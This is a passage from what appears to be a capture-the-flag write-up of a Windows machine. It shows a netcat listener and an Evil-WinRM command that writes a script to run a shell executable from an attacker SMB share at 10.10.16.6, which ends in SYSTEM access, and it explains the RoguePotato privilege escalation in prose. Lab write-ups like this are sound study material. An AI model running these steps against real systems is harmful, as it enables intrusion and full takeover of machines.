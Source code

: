 ```
┌──(root💀kali)-[/home/kali]
└─# rlwrap nc -nvlp 4444    

*Evil-WinRM* PS C:\Users\robisl\Documents>mkdir C:\Temp

Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        12/7/2021  11:38 AM                Temp

*Evil-WinRM* PS C:\Users\robisl\Documents>echo 'powershell -command "cmd /c \\10.10.16.6\\share\shell.exe" > C:\Temp\script.ps1'
```

<video width="730" height="548" controls>
  <source src="https://user-images.githubusercontent.com/68256613/145005873-bef56dba-01c2-4d57-95f1-f55c64dfe227.mp4" type="video/mp4">
</video>

And now we're System. 

## Afterthoughts

This box was pretty fun, most of the steps lined up and it was interesting to be working with DevOps related stuff. Code execution through DevOps tools is definetely something to look out for. Also, having public repositories is probably not safe, especially when the history is viewable (for a company, anyways).

## Bonus

Lets not forget about RoguePotato. This probably wasn't the intended route, but its a viable route. RoguePotato is a very complicated exploit. Before we talk about that, we need to understand why JuicyPotato, another exploit utilizing SeImpersonate, doesn't work here. These exploits require access to the OXID resolver (to keep things simple, just know that this thing exists and don't question its functionality). JuicyPotato was able to access OXID through creating its own service on a custom port and querying OXID under the context of that service, and then the exploit would use the SeImpersonate token to grab the System token and run commands. However, in Server 2019, OXID can only be queried via port 135. Since JuicyPotato spawned its own service to query OXID, this doesn't work anymore. 

However, RoguePotato works by sending a remote OXID request, under the context of System, to our attacker machine, which will be forwarding the traffic back to the machine running RoguePotato, but on a port that RoguePotato is listening on. This listening port is actually a fake OXID server generated by RoguePotato. This fake OXID server points towards a named pipe that Rogue Potato also created, and the initial request (send as System) will trigger an "Authentication Callback". Because System is a client to the server (the named pipe), RoguePotato is able to use the SeImpersonate privilege to impersonate the client. From there, RoguePotato launches a process.

That was a lot of technical stuff (even though its heavily simplified). But how do we use it on this box? Well it's a little difficult because there's a firewall.
